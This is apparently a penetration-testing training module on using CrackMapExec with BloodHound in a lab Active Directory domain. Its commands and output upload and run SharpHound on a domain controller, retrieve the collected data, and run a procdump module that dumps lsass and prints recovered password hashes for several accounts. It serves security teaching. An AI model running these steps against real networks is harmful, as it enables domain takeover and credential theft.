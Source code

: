 # Bloodhound Integration

[BloodHound](https://github.com/BloodHoundAD/BloodHound) is an open-source tool used by attackers and defenders alike to analyze domain security. The tool takes in a large amount of data gathered from the domain. It uses graph theory to visually represent the relationship and identify domain attack paths that would have been difficult or impossible to detect with traditional enumeration.

In this section, we assume you are familiar with Bloodhound. If that's not the case, you can learn more about Bloodhound in the [Active Directory Bloodhound](https://academy.hackthebox.com/module/details/69/) module, or you can check [Bloodhound official documentation](https://bloodhound.readthedocs.io/en/latest/index.html).

***

## Bloodhound Mark as Owned

In [BloodHound](https://github.com/BloodHoundAD/BloodHound), we can manually mark a node (user, group, computer, etc.) as `owned` by right-clicking it and clicking `Mark X as Owned` meaning that we compromise it. This is helpful to keep track of the users and computers we compromised when working with a large organization and if we want to perform a BloodHound cypher query such as `Shortest Path from Owned Principals` or `Shortest Paths to Domain Admins from Owned Principals`.

We can configure CrackMapExec to mark any user or computer we compromise as owned in the BloodHound database. To do this, we need to modify the CrackMapExec configuration file located in `~/.cme/cme.conf` with the following options:

* Set the Bloodhound configuration option `bh_enabled` to True.
* Set the `bh_uri` to our Bloodhound database IP address.
* Set the `bh_port` to the database port.
* Set the credentials to match the bloodhound database are username `neo4j` and the password `HackTheBoxCME!` (Make sure to use the one that corresponds to your database).

The configuration should look as follow:

### **Configuring BloodHound Database**

```shell-session
$ cat ~/.cme/cme.conf

[CME]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode = 

[BloodHound]
bh_enabled = True
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = HackTheBoxCME!

<SNIP>
```

{% hint style="info" %}
**Note:** Make sure to use the corresponding username and password to the BloodHound database you are connecting to.
{% endhint %}

***

## Collecting Bloodhound Data

To collect BloodHound data, we will use CrackMapExec to execute SharpHound and then transfer the file to our attack host.

### **Collecting BloodHound data**

```shell-session
al1abb@htb[/htb]$ wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -q
al1abb@htb[/htb]$ crackmapexec smb 10.129.203.121 -u julio -p Password1 --put-file SharpHound.exe SharpHound.exe

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
SMB         10.129.203.121  445    DC01             [*] Copy SharpHound.exe to SharpHound.exe
SMB         10.129.203.121  445    DC01             [+] Created file SharpHound.exe on \\C$\SharpHound.exe
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 -x "C:\SharpHound.exe -c All && dir c:\*_BloodHound.zip"

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
SMB         10.129.203.121  445    DC01             [+] Executed command 
SMB         10.129.203.121  445    DC01             Volume in drive C has no label.
SMB         10.129.203.121  445    DC01             Volume Serial Number is B8B3-0D72
SMB         10.129.203.121  445    DC01             
SMB         10.129.203.121  445    DC01             Directory of c:\
SMB         10.129.203.121  445    DC01             
SMB         10.129.203.121  445    DC01             11/09/2022  09:54 AM            14,287 20221109095424_BloodHound.zip
SMB         10.129.203.121  445    DC01             1 File(s)         14,287 bytes
SMB         10.129.203.121  445    DC01             0 Dir(s)   8,828,305,408 bytes free
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 --get-file 20221109095424_BloodHound.zip bloodhound.zip

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
SMB         10.129.203.121  445    DC01             [*] Copy 20221109095424_BloodHound.zip to bloodhound.zip
SMB         10.129.203.121  445    DC01             [+] File 20221109095424_BloodHound.zip was transferred to bloodhound.zip
```

Now we need to open BloodHound and import the data.

***

## Setting Users as Owned in BloodHound

Once the data is imported, if we try to connect with the user `robert`, it will set the user as owned in the BloodHound database.

### **User Added as Owned in BloodHound**

```shell-session
$ crackmapexec smb 10.129.203.121 -u robert -p Inlanefreight01!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             Node ROBERT@INLANEFREIGHT.HTB successfully set as owned in BloodHound
```

The same will happen if we compromise a machine with multiple users. It will set all new users found as owned.

### **Adding Users as Owned with the Procdump Module**

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 -M procdump

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
SMB         10.129.203.121  445    DC01             Node JULIO@INLANEFREIGHT.HTB successfully set as owned in BloodHound
PROCDUMP    10.129.203.121  445    DC01             [*] Copy /tmp/shared/procdump.exe to C:\Windows\Temp\
PROCDUMP    10.129.203.121  445    DC01             [+] Created file procdump.exe on the \\C$\Windows\Temp\
PROCDUMP    10.129.203.121  445    DC01             [*] Getting lsass PID tasklist /v /fo csv | findstr /i "lsass"
PROCDUMP    10.129.203.121  445    DC01             [*] Executing command C:\Windows\Temp\procdump.exe -accepteula -ma 640 C:\Windows\Temp\%COMPUTERNAME%-%PROCESSOR_ARCHITECTURE%-%USERDOMAIN%.dmp
PROCDUMP    10.129.203.121  445    DC01             [+] Process lsass.exe was successfully dumped
PROCDUMP    10.129.203.121  445    DC01             [*] Copy DC01-AMD64-INLANEFREIGHT.dmp to host
PROCDUMP    10.129.203.121  445    DC01             [+] Dumpfile of lsass.exe was transferred to /tmp/shared/DC01-AMD64-INLANEFREIGHT.dmp
PROCDUMP    10.129.203.121  445    DC01             [+] Deleted procdump file on the C$ share
PROCDUMP    10.129.203.121  445    DC01             [+] Deleted lsass.dmp file on the C$ share
PROCDUMP    10.129.203.121  445    DC01             127.0.0.1\julio:Password1
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\svc_mssql:842bfb5892fc6cbe2af323e3199f0f18
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
PROCDUMP    10.129.203.121  445    DC01             127.0.0.1\julio:Password1
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
PROCDUMP    10.129.203.121  445    DC01             127.0.0.1\julio:Password1
PROCDUMP    10.129.203.121  445    DC01             127.0.0.1\julio:Password1
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
PROCDUMP    10.129.203.121  445    DC01             \julio:500aad7ceb637a4255d101d50045310b31729ddb
PROCDUMP    10.129.203.121  445    DC01             127.0.0.1\julio:Password1
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\david:c39f2beb3d2ec06a62cb887fb391dee0
PROCDUMP    10.129.203.121  445    DC01             INLANEFREIGHT\svc_workstations:7247e8d4387e76996ff3f18a34316fdd
PROCDUMP    10.129.203.121  445    DC01             Node SVC_MSSQL@INLANEFREIGHT.HTB successfully set as owned in BloodHound
PROCDUMP    10.129.203.121  445    DC01             Node DAVID@INLANEFREIGHT.HTB successfully set as owned in BloodHound
PROCDUMP    10.129.203.121  445    DC01             Node SVC_WORKSTATIONS@INLANEFREIGHT.HTB successfully set as owned in BloodHound
```

{% hint style="info" %}
**Note:** Not all CrackMapExec options will sync with the BloodHound database. For example, if we try `--ntds` or `--lsa` options, it won't mark users as owned in the database, but modules such as `procdump` or `lsassy` will mark users as owned.
{% endhint %}

***

## Setting Computers as Owned in BloodHound

At the time of writing, BloodHound integration only marks users as Owned. If we want to mark a computer as owned, we can use the module `bh_owned` and the username and password of our neo4j database. In the following example, we will only add the `PASS` option, as the other default values match with our neo4j database.

```shell-session
$ crackmapexec smb -M bh_owned --options

[*] bh_owned module options:  

            URI            URI for Neo4j database (default: 127.0.0.1)
            PORT           Listening port for Neo4j database (default: 7687)
            USER           Username for Neo4j database (default: 'neo4j')
            PASS           Password for Neo4j database (default: 'neo4j')
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 -M bh_owned -o PASS=HackTheBoxCME!                                                                        
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)         
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)                                                               
BH_OWNED    10.129.203.121  445    DC01             [+] Node DC01.INLANEFREIGHT.HTB successfully set as owned in BloodHound
```
